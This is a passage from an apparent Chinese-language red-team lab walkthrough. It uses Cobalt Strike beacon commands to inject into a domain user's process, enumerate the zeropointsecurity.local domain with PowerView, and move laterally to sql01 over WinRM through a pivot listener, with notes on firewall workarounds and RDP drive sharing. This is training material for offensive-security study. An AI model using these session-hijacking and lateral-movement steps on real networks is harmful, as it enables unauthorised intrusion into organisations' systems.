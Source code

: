 10.10.18.167:139
10.10.18.167:445
10.10.18.167:3389
10.10.18.167:5985

Scanner module is complete
```

从结果可知我们可以访问域```zeropointsecurity.local```上```dc01``` 和 ```sql01```两台机器上的一些有用的端口


注入当前机器（sql-1.cyberbotic.io）上的```jean.wise```的进程
```
beacon> inject 4960 x64 tcp-local
[+] established link to child beacon: 10.10.15.90
```

显示当前用户已经是```jean.wise```

```
beacon> getuid
[*] You are ZPS\jean.wise
```

在当前用户下使用PowerView已经可以枚举到```zeropointsecurity.local```的域信息
```
beacon> powershell Get-Domain

Forest                  : zeropointsecurity.local
DomainControllers       : {dc01.zeropointsecurity.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : dc01.zeropointsecurity.local
RidRoleOwner            : dc01.zeropointsecurity.local
InfrastructureRoleOwner : dc01.zeropointsecurity.local
Name                    : zeropointsecurity.local
```

上面枚举之所以能成功，是因为我们在```zeropointsecurity.local```域的上下文中，我们没有跨信任执行任何身份验证，只是劫持了一个现有的经过身份验证的会话

如果jean.wise对zeropointsecurity.local有特权访问，那么从该域上下文横向移动将是相当简单的。我们可以弄清楚这jean.wise是一个System Admins域组的成员，它是SQL01上本地Administrators的成员

因为上面端口枚举显示445端口没有开放，但是5985是开放的，可以使用winrm，执行命令
```
beacon> remote-exec winrm sql01.zeropointsecurity.local whoami; hostname

zps\jean.wise
sql01
```
横向移动
```
beacon> jump winrm64 sql01.zeropointsecurity.local pivot-sql-1
[+] established link to child beacon: 10.10.18.221
```

我在这里使用另一个 Pivot 侦听器，因为在 SQL01 上启用了 Windows 防火墙，我们无法将入站连接到 445（因此没有 SMB 侦听器）或其他任意端口，如 4444（因此没有 TCP 侦听器）。SQL-1 上未启用 Windows 防火墙，因此我们可以绑定到高端口并捕获来自 Pivot Listener 的反向连接

如果在 SQL-1 上也启用了 Windows 防火墙，我们可能需要尝试使用```netsh```

即使jean.wise不是 SQL01 上的本地管理员,仍然可以通过已建立的 RDP 通道横向移动。这就是驱动器共享发挥作用的地方

在```jean.wiseSQL-1 ```上的 RDP 会话中，有一个名为 UNC 路径```tsclient```

```